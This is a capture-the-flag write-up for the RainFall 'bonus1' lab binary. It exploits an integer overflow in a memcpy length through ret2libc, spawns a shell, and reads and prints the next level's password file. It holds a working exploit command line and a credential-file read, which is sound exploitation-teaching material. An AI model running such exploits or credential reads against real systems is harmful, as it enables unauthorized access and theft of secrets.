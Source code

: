 Here, we cannot give a number greater than 9 as first argument, else we won't be able to try to overflow the `memcpy`.
Since the number given is multiplied by 4, we can try to overflow the first argument. Indeed, since memcpy's third argument is a `size_t`, on a 32bits system, the `size_t` type is only on 4 bytes.

So, since uint32 max value = 4294967295, if we want to overflow, we need a this base value :

```mathematica
(4294967295 + 1) / 4 = 1073741824
```

We take that as a negative value so `-1073741824`
Then, we try to make this segfault. With this given number, the memcpy is copying 0 bytes.
So if, for example, we give `-1073741800`, we will copy `24*4 = 96` bytes :

>bonus1@RainFall:~$ gdb -q --args ./bonus1 -1073741800 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIILLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXX
>Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
>(gdb) run
>Starting program: /home/user/bonus1/bonus1 -1073741800 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIILLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXX
>Program received signal SIGSEGV, Segmentation fault.
>0x51515151 in ?? ()

Here, we have a segfault on the bytes corresponding to the `Qs`.
So, we can try to call `/bin/sh` the same way we did in `level1` : 

>bonus1@RainFall:~$ ./bonus1 -1073741800 `python -c 'print("A" * 56 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7" + "A" * 28)'`
>$ whoami
>bonus2
>$ cat /home/user/bonus2/.pass
>579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

```bash
su bonus2
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```


